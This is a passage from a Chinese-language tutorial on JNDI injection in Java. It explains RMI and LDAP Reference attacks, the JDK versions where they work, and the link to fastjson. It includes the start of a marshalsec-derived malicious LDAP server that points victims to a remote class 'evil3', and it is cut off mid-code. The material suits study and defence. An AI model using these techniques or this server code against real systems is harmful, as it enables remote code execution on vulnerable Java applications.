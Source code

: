 最终进行实例化，进而触发了我们静态代码片段中的恶意代码，从而弹出计算器。

梳理一下流程：

1. 首先 RMI 获取了我们 HTTP 服务器上的远程对象引用，利用 ReferenceWrapper 包装之后绑定在了 Registry 上
2. JNDI 客户端根据名字获取到了 RMI 上的引用
3. 获取到之后首先利用 getObjectFactoryFromReference 方法对 ReferenceWrapper_Stub 进行了还原 获取到了 Reference 类
4. 然后根据 Reference类中的codebase url 远程获取了我们的恶意类并且进行了实例化从而在客户端触发了恶意代码

所以我们在符合 jdk 版本要求的情况下，控制jndi请求的路径，即可进行命令执行，fastjson就是以这个原理触发的。



### 3 LDAP+Reference

`LDAP`，全称`Lightweight Directory Access Protocol`，即轻量级目录访问协议。

除了RMI服务之外，JNDI还可以对接LDAP服务，且LDAP也能返回JNDI Reference对象，利用过程与上面RMI Reference基本一致，只是lookup()中的URL为一个LDAP地址如`ldap://xxx/xxx`，由攻击者控制的LDAP服务端返回一个恶意的JNDI Reference对象。

LDAP+Reference的技巧远程加载Factory类不受RMI+Reference中的`com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase`等属性的限制，所以适用范围更广。但在JDK  8u191、7u201、6u211之后，`com.sun.jndi.ldap.object.trustURLCodebase`属性的默认值被设置为false，对LDAP Reference远程工厂类的加载增加了限制。

所以，当JDK版本介于8u191、7u201、6u211与6u141、7u131、8u121之间时，我们就可以利用LDAP+Reference的技巧来进行JNDI注入的利用。

#### JDK<8u191

起一个LDAP服务，代码改自`marshalsec`

```java
package JNDI;

import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class LDAPserver {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://localhost:9999/#evil3"};
        int port = 7777;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));
```